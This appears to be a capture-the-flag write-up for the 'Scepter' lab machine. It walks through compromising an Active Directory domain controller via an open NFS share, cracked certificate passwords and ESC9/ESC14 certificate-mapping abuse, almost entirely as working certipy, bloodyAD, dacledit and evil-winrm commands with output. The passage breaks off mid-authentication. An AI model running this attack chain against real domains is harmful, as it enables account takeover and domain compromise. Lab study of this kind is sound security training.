





# Before Starting 
```console
Me > 10.10.14.27
Target > 10.129.28.117
```
```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-20 03:00:49Z)
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.scepter.htb
| Issuer: commonName=scepter-DC01-CA/domainComponent=scepter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-01T03:22:33
| Not valid after:  2025-11-01T03:22:33
| MD5:   2af688f7a6bfef509b843dc63df5e018
| SHA-1: cd9a97ee25c800ba1427c25902ed6e0d9a217fd9
| -----BEGIN CERTIFICATE-----
| MIIG...0MjGsS
|_-----END CERTIFICATE-----
|_ssl-date: 2025-04-20T03:01:49+00:00; +7h58m45s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-20T03:01:50+00:00; +7h58m45s from scanner time.
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.scepter.htb
| Issuer: commonName=scepter-DC01-CA/domainComponent=scepter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-01T03:22:33
| Not valid after:  2025-11-01T03:22:33
| MD5:   2af688f7a6bfef509b843dc63df5e018
| SHA-1: cd9a97ee25c800ba1427c25902ed6e0d9a217fd9
| -----BEGIN CERTIFICATE-----
| MIIG...oA0MjGsS
|_-----END CERTIFICATE-----
|_ssl-date: 2025-04-20T03:01:49+00:00; +7h58m45s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-20T03:01:50+00:00; +7h58m45s from scanner time.
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.scepter.htb
| Issuer: commonName=scepter-DC01-CA/domainComponent=scepter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-01T03:22:33
| Not valid after:  2025-11-01T03:22:33
| MD5:   2af688f7a6bfef509b843dc63df5e018
| SHA-1: cd9a97ee25c800ba1427c25902ed6e0d9a217fd9
| -----BEGIN CERTIFICATE-----
| MI...0MjGsS
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-04-20T03:01:50+00:00; +7h58m45s from scanner time.
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: DNS:dc01.scepter.htb
| Issuer: commonName=dc01.scepter.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-01T00:21:41
| Not valid after:  2025-11-01T00:41:41
| MD5:   e84c6894816eb7f543380a1fa8962075
| SHA-1: 4e583799020daaf4d5ce0c1e76db32cd5a0e28a7
| -----BEGIN CERTIFICATE-----
| MI...==
|_-----END CERTIFICATE-----
| tls-alpn:
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58506/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58523/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Enumeration and NFS
First we are goint to enumerate some things :

```bash
➜ nxc smb scepter.htb -u 'toto' -p ''

SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.28.117   445    DC01             [-] scepter.htb\toto: STATUS_LOGON_FAILURE

➜ kerbrute userenum --domain "scepter.htb" --dc scepter.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 04/21/25 - Ronnie Flathers @ropnop

2025/04/21 14:41:27 >  Using KDC(s):
2025/04/21 14:41:27 >  	scepter.htb:88

2025/04/21 14:41:32 >  [+] VALID USERNAME:	 administrator@scepter.htb
```
No guest session and ```kerbrute``` is useless here

The port **2049** is open, let's check it :

showmount -e scepter.htb
Export list for scepter.htb:
/helpdesk (everyone)

Ok nice, mount it :

```bash
➜  ethicxz mount -t nfs -o vers=4,nolock 10.129.28.117:/helpdesk ./toto

➜  toto ls -la
total 25
drwx------  2 nobody 4294967294   64 nov.   2 04:02 .
drwxr-xr-x 59 ethicxz ethicxz     4096 avril 21 14:43 ..
-rwx------  1 nobody 4294967294 2484 nov.   2 04:01 baker.crt
-rwx------  1 nobody 4294967294 2029 nov.   2 04:01 baker.key
-rwx------  1 nobody 4294967294 3315 nov.   2 04:01 clark.pfx
-rwx------  1 nobody 4294967294 3315 nov.   2 04:01 lewis.pfx
-rwx------  1 nobody 4294967294 3315 nov.   2 04:02 scott.pfx
```
## Generate a pfx file to retrieve d.baker hash

We can try to authenticate with theses **.pfx files** :

```bash
➜ certipy auth -pfx lewis.pfx -dc-ip '10.129.28.117' -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: Invalid password or PKCS12 data
Traceback (most recent call last):
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/entry.py", line 60, in main
    actions[options.action](options)
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/parsers/auth.py", line 12, in entry
    auth.entry(options)
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/auth.py", line 657, in entry
    authenticate = Authenticate(target=target, **vars(options))
                   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/auth.py", line 148, in __init__
    self.key, self.cert = load_pfx(f.read())
                          ^^^^^^^^^^^^^^^^^^
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/lib/certificate.py", line 321, in load_pfx
    return pkcs12.load_key_and_certificates(pfx, password)[:-1]
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
ValueError: Invalid password or PKCS12 data
```
But it doesn't work, we can try to crack it with **pfx2john**

```bash
➜ pfx2john.py lewis.pfx > hash.txt

➜ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 SSE2 4x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 12 OpenMP threads
Note: Passwords longer than 16 [worst case UTF-8] to 48 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
REDACTED      (lewis.pfx)
```
Now we can try to generate the **baker pfx file** with ```baker.key``` and ```baker.crt``` thanks to openssl :

```bash
openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt

Enter pass phrase for baker.key:
Enter Export Password:
Verifying - Enter Export Password:
```
<div style="
  background-color: #0d1117;
  border: 1px solid #1f6feb;
  border-radius: 6px;
  padding: 16px;
  color: #c9d1d9;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: 600; color: #58a6ff;">
    <span style="margin-right: 6px;">ℹ️</span>Note
  </p>
  <p style="margin: 0 0 1em;">The passphrase is the password that we cracked with john, but for the Export Password we just need to press Enter, without any password.</p>

  <pre style="
    background-color: #161b22;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #c9d1d9;">openssl pkcs12 -in cert.pfx -nocerts -out priv-key.pem</code></pre>
</div>

Now we can retrieve **baker hash**

```bash
➜ rdate -n 10.129.28.117

➜ certipy auth -pfx baker.pfx -dc-ip 10.129.28.117

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: d.baker@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18...ce
```
## ESC9 to PSRemote on the machine

Nice, now let's enumerate :

```bash
➜ nxc smb scepter.htb -u 'd.baker' -H '18...ce'
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.28.117   445    DC01             [+] scepter.htb\d.baker:18...ce

➜ nxc smb scepter.htb -u 'd.baker' -H '18...ce' --shares
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.28.117   445    DC01             [+] scepter.htb\d.baker:18...ce
SMB         10.129.28.117   445    DC01             [*] Enumerated shares
SMB         10.129.28.117   445    DC01             Share           Permissions     Remark
SMB         10.129.28.117   445    DC01             -----           -----------     ------
SMB         10.129.28.117   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.28.117   445    DC01             C$                              Default share
SMB         10.129.28.117   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.28.117   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.28.117   445    DC01             SYSVOL          READ            Logon server share

➜ nxc ldap scepter.htb -u 'd.baker' -H '18...ce' --bloodhound --dns-tcp --dns-server 10.129.28.117 -c all
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
LDAP        10.129.28.117   389    DC01             [+] scepter.htb\d.baker:18...ce
LDAP        10.129.28.117   389    DC01             Resolved collection methods: trusts, psremote, rdp, localadmin, session, acl, dcom, group, objectprops, container
LDAP        10.129.28.117   389    DC01             Done in 00M 05S
LDAP        10.129.28.117   389    DC01             Compressing output into /root/.nxc/logs/DC01_10.129.28.117_2025-04-21_234209_bloodhound.zip
```
As we can see, **d.baker** can change the password of **a.carter**



And **a.carter** has **GenericAll** rights on **STAFF ACCESS CERTIFICATE@SCEPTER.HTB**



Also, **d.baker** is in **staff** group



Knowing that there is a group called **STAFF ACCESS CERTIFICATE** and that an ADCS is present, let's enumerate :

```bash
certipy find -target dc01.scepter.htb -u 'd.baker' -hashes :'18..ce' -dc-ip '10.129.28.117' -vulnerable -stdout -debug
```


As we can see, we can perform an **ESC9**

Looking again bloodhound we can see that **h.brown** can **PSRemote**, let's try to compromise this account

First of all, what is an ESC9 :

> ESC9 is an attack path that abuses certificate mapping rules in AD CS, specifically Non-Enforced Enrollment Agent Certificate Mapping. It allows an attacker to impersonate another user, even high-privileged ones like Domain Admins, if certain conditions are met

[What is "Certificate mapping"](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#certificate-mapping)

> If the certificate attribute msPKI-Enrollment-Flag contains the flag CT_FLAG_NO_SECURITY_EXTENSION, the szOID_NTDS_CA_SECURITY_EXT extension will not be embedded, meaning that even with StrongCertificateBindingEnforcement set to 1, the mapping will be performed similarly as a value of 0 in the registry key

Here are the requirements to perform ESC9 in our case :

- [x] The template contains the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value
- [x] The template specifies client authentication
- [x] GenericWrite right against any account A to compromise any account B


Let's follow [this](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension)

<div style="
  background-color: #0d1117;
  border: 1px solid #1f6feb;
  border-radius: 6px;
  padding: 16px;
  color: #c9d1d9;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: 600; color: #58a6ff;">
    <span style="margin-right: 6px;">ℹ️</span>Note
  </p>
  <p style="margin: 0 0 1em;">It's not going to work, but it's normal, i'm doing this to show why it will not work.</p>
</div>

```bash
➜ changepasswd.py 'scepter.htb'/'a.carter'@10.129.28.117 -reset -altuser 'd.baker' -althash :'18..ce'

➜ dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'password'

Impacket v0.13.0.dev0+20240918.213844.ac790f2b - Copyright Fortra, LLC and its affiliated companies

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250420-060416.bak
[*] DACL modified successfully!

➜ certipy account update -username "a.carter@scepter.htb" -p 'password' -user d.baker -upn 'h.brown'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'd.baker':
    userPrincipalName                   : h.brown
[*] Successfully updated 'd.baker'

➜ certipy req -username "d.baker" -hashes :"18..ce" -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'User' -dc-ip '10.129.76.175' -subject "CN=d.baker,CN=Users,DC=scepter,DC=htb" -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'DC01.scepter.htb' at '10.129.76.175'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.76.175[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.76.175[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with subject: DC=htb,DC=scepter,OU=Staff Access Certificate,CN=d.baker
[*] Got certificate with UPN 'h.brown'
[*] Certificate object SID is 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Saved certificate and private key to 'h.brown.pfx'

➜ certipy account update -username "a.carter@scepter.htb" -p "password" -user d.baker -upn "d.baker@scepter.htb"

➜ certipy auth -pfx 'h.brown.pfx' -domain "scepter.htb"

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user 'h.brown'
[-] Verify that user 'h.brown' has object SID 'S-1-5-21-74879546-916818434-740295365-1106'
```
> The SID is the recommended way and therefore counts as "Strong".
The DC uses this SID in strong implicit certificate mapping instead of the weak UPN and DNS mapping to ensure that the enrollee can only authenticate as themselves.
The strong ones contain identifiers that you cannot reuse.
For example, the mail attribute is not a unique protected attribute so it is possible to set the mail attribute to the value of another user.

If we don't specify `-subject "CN=d.baker,CN=Users,DC=scepter,DC=htb"`, we are going to have this error `code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name`

```bash
➜ getTGT.py -dc-ip "scepter.htb" "scepter.htb"/"d.baker" -hashes :'18..ce'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in d.baker.ccache

➜ export KRB5CCNAME=d.baker.ccache

➜ certipy req -no-pass -k -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate' -dc-ip '10.129.28.117' -debug -dns-tcp

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Domain retrieved from CCache: SCEPTER.HTB
[+] Username retrieved from CCache: d.baker
[+] Trying to resolve 'DC01.scepter.htb' at '10.129.28.117'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Using Kerberos Cache: d.baker.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: d.baker
[+] Getting TGS for 'host/DC01.scepter.htb'
[+] Got TGS for 'host/DC01.scepter.htb'
[+] Trying to connect to endpoint: ncacn_np:10.129.28.117[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.28.117[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
[*] Request ID is 4
Would you like to save the private key? (y/N) n
[-] Failed to request certificate
```
Looking again on the `certipy find -vulnerable...` screen, we can see :

> Certificate Name Flag : SubjectRequireEmail ; SubjectRequireDnsAsCn ; SubjectAltRequireEmail

So instead of changing the upn, let's try to change the email :

```bash
➜ changepasswd.py 'scepter.htb'/'a.carter'@10.129.28.117 -reset -altuser 'd.baker' -althash :'18..ce'

➜ dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'password'

➜ bloodyAD -d scepter.htb -u a.carter -p 'password' --host dc01.scepter.htb set object d.baker mail -v h.brown@scepter.htb

[+] d.baker mail has been updated

➜ certipy req -username "d.baker@scepter.htb" -hashes :'18...ce' -target "dc01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'

➜ certipy auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.129.28.117 -username h.brown

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4e..0c
```


```bash
export KRB5CCNAME=h.brown.ccache
```
<div style="
  background-color: #0d1117;
  border: 1px solid #1f6feb;
  border-radius: 6px;
  padding: 16px;
  color: #c9d1d9;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: 600; color: #58a6ff;">
    <span style="margin-right: 6px;">ℹ️</span>Note
  </p>
  <p style="margin: 0 0 1em;">Config /etc/krb5.conf like this</p>

  <pre style="
    background-color: #161b22;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #c9d1d9;"># /etc/krb5.conf

[libdefaults]
        default_realm = SCEPTER.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        SCEPTER.HTB = {
                kdc = scepter.htb
                admin_server = scepter.htb
                default_admin = scepter.htb
        }
[domain_realm]
        .scepter.htb = SCEPTER.HTB</code></pre>
</div>

```bash
evil-winrm -i dc01.scepter.htb -r SCEPTER.HTB -u h.brown

Evil-WinRM shell v3.6

Warning: User is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents> cat ../Desktop/user.txt
```
## ESC14-B to win

At this point, even if we did a lot of enumeration on the machine, we are not going to find something except the thing that **p.adams** can DCSYNC on the machine and **h.brown** is in **CMS** group (Certificate Management Services) and in HelpDesk Admins

Knowing that ESC9, ESC10 and ESC14 are related to roughly the same vulnerability, i will enumerate ADCS again but with a github PR for ESC14

[PR 255](https://github.com/ly4k/Certipy/pull/255)

```bash
➜ git clone https://github.com/Deloitte-OffSecResearch/Certipy.git

➜ python3 -m venv .venv

➜ source .venv/bin/activate

➜ cd build/lib/certipy/

➜ python3 entry.py find -u 'd.baker@scepter.htb' -hashes :'18...ce' -dc-ip '10.129.28.117' -esc14 -vulnerable -stdout -debug
```


We are in [this case](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc14-weak-explicit-mapping)

> The target has an explicit weak mapping of type X509RFC822. The attacker can modify the mail attribute of the victim so that it matches the X509RFC822 mapping of the target. It is then possible to enroll on the certificate model with the victim, and use the certificate obtained to authenticate as the target.

- [x] The target is a user account
- [x] The certificate template shows CT_FLAG_NO_SECURITY_EXTENSION in msPKI-Enrollment-Flag and shows the attribute CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL in msPKI-Certificate-Name-Flag
- [x] The attacker has write access to the mail attribute of the victim
- [] The target already has at least one X509RFC822 mapping in altSecurityIdentities

Let's check the last point : 

We can simply add a value in altSecurityIdentities

```powershell
PS > Set-ADUser -Identity "p.adams" -Add @{'altSecurityIdentities'='X509:<RFC822>toto@scepter.htb'}
```
```bash
➜ bloodyAD -d scepter.htb -u h.brown -k --host dc01.scepter.htb --dc-ip 10.129.28.117 get object p.adams

altSecurityIdentities: X509:<UPN=toto@scepter.htb>/CN=StaffAccessCertificate
```
- [x] The target already has at least one X509RFC822 mapping in altSecurityIdentities

Now, change the email : 

```bash
➜ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'password' set object d.baker mail -v toto@scepter.htb

[+] d.baker's mail has been updated
```
Then we can just request the certificate again and auth as p.adams

```bash
➜ certipy req -username 'd.baker@scepter.htb' -hashes '18...ce' -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'

➜ certipy auth -pfx 'd.baker.pfx' -domain 'scepter.htb' -username 'p.adams'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: p.adams@scepter.htb
